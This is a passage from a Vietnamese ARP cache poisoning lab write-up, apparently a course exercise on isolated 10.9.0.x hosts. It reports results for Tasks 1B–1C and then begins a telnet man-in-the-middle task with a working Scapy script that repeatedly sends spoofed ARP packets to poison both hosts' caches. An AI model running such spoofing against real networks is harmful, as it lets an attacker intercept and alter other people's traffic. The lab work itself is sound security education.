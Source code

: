 Vậy là ta đã thực hiện ARP cache poison attack thành công.
    
- IP của B chưa có trong ARP cache của A:

    - Đầu tiên ta thực hiện `arp -d 10.9.0.6` để xóa đi thông tin Host B trong ARP cache của A
    - Và tiếp theo thực hiện giống ở trên, lần lượt là thực thi code ở terminal attacker và kiểm tra ở Host A

    Đã gửi thành công ở terminal attacker.
    
    ![](https://i.imgur.com/cuZBt0I.png)

    Kiểm tra Host A thì thấy traffc có một ARP reply với địa chỉ IP của Host B và địa chỉ MAC của attacker nhưng khi kiểm tra ARP cache thì vẫn còn trống.

    ![](https://i.imgur.com/bmNWbpT.png)

Vậy trong trường hợp này ta không thực hiện thành công được ARP cache poison attack.

>**Vậy thông qua hai Task 1B và Task 1C thì ta có thể kế luận rằng để có thể thực hiện được ARP cache poison attack bằng ARP reply hoặc ARP gratutous thì trong ARP cache phải tồn tại từ trước đó thì mới có thể ghi đè địa chỉ MAC lên được.**


### Task 2 

Ở task này đề yêu cầu chúng ta thực hiện MITM attack vào telnet bằng ARP cache poison. 
A và B sẽ giao tiếp với nhau bằng telnet. Mục tiêu của attacker sẽ là ngăn chặn lại và thay đổi thông điệp giữa A và B.

- Step 1: Thực hiện ARP attack bằng ARP request trên cả Host A và Host B. Với ARP cache của A thì sẽ lưu thông tin IP của B gán với MAC của attacker còn với ARP cache của B thì sẽ lưu thông tin của IP của A gán với MAC của attacker. Thực hiện lặp lại việc gửi ARP request đó mỗi 5 giây. Cụ thể ta sẽ thực hiện đoạn code như sau : 

    ```python=
    #!/usr/bin/python3
    from time import sleep
    from scapy.all import *

    while True :

        E = Ether(src = '02:42:0a:09:00:69',dst = '02:42:0a:09:00:05')
        A = ARP(hwsrc='02:42:0a:09:00:69',psrc='10.9.0.6',hwdst='02:42:0a:09:00:05', pdst='10.9.0.5')
        pkt = E/A
        pkt.show()
        sendp(pkt)

        E = Ether(src = '02:42:0a:09:00:69',dst = '02:42:0a:09:00:06')
        A = ARP(hwsrc='02:42:0a:09:00:69',psrc='10.9.0.5',hwdst='02:42:0a:09:00:06', pdst='10.9.0.6')
        pkt = E/A
        pkt.show()
        sendp(pkt)

        time.sleep(5)

    ```
